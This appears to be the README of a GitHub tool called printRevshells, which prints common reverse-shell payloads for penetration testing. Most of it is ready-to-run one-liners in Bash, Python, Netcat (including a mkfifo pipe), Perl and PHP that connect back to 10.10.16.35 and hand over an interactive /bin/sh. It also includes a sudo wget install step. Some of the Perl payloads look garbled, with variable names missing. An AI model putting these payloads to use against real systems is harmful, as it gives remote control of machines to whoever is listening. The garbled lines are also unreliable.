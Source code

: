 ## printRevshells

### Purpose
Got sick of looking for the same payloads every time you want to pop a reverse shell? This simple script will print via the terminal the most common revshell payloads you can find on the web.

There are plenty of payloads online but this script includes:
- Bash
- Python
- Netcat
- Perl
- PHP

The script is easily customizable so you can add your own payloads aswell


### Installation
```
sudo wget https://raw.githubusercontent.com/shroudri/printRevshells/main/printRevshells -O /usr/local/bin/printRevshells
sudo chmod +x /usr/local/bin/printRevshells
username=$(whoami)
sudo chown $username /usr/local/bin/printRevshells

```


### Usage
If you have followed the installation instructions, the script will be within your PATH, so you can call it from anywhere!

Simply type `printRevshells`

Example:

```
shroudri@kali:/tmp$ printRevshells
Bash
bash -i >& /dev/tcp/10.10.16.35/9001 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'

Netcat
nc -e /bin/sh 10.10.16.35 9001
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 9001 >/tmp/f 

Perl
perl -e 'use Socket;="10.10.16.35";=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
php -r '$sock=fsockopen("10.10.16.35",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### - Wait! But I want to specify the port!

By default, **if no arguments are provided**, the script will use 9001 as the default port. You can customize this easily on the script.

However, if you want to specify your own port, you can execute the script as follows.
```
printRevshells 1234
```

Which generates the following output:

```
Bash
bash -i >& /dev/tcp/10.10.16.35/1234 0>&1

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.35",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
.....
```
